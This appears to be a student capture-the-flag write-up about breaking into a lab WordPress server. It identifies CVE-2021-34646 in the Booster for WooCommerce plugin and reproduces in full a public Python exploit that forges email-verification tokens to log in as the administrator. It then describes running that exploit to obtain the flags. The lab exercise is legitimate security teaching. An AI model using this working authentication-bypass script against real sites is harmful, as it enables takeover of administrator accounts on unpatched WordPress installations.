







# **CTF Week #3**

**Objective:** Login with an administrator account in a Wordpress server, using a CVE with a known exploit.

**Targeted address**: http://ctf-fsi.fe.up.pt:5001

## **Identify valuable information by browsing the web application.**

|   Plugin/Framework   |  Version   |  Source Code  |
| :--: | :--: | :--: |
| Wordpress | 5.8.1 | |
| WooCommerce | 5.7.1 | |
| Booster for WooCommerce | 5.4.3 | |

## First Flag Identification
For the first flag our goal was to identify a CVE that allows us to log in as another user.
We found the CVE-2021-34646 that showed us that the Booster for WooCommerce WordPress plugin were vulnerable to authentication bypass via the process_email_verification function due to a random token generation weakness in the reset_and_mail_activation_link function.

**Flag 1 Identified ->** flag{[CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)}

## **Search for exploit online**

* The exploit was found on the exploit on https://www.exploit-db.com/exploits/50299

```phyton
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

## Second Flag Identification
For the second flag the challenge was to authenticate as admin and go to the page http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php and copy the flag hidden in there.
After finding the exploit, we downloaded it and execute the python script and give the website http://ctf-fsi.fe.up.pt:5001/ and add "1" (its the admin account) then it would generate links with random tokens and we could enter them and be logged in as admin.

#### Terminal after executing the command "python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1"
 

#### Link given in terminal authenticates us as admin


#### We now have access to http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php


#### After cliking the message it shows us the flag


**Flag 2 Identified ->** flag{please don't bother me}

## Conclusion
In conclusion we checked for a vulnerability in the WordPress and after that, we found the exploit needed to access the website and logged in as an admin.
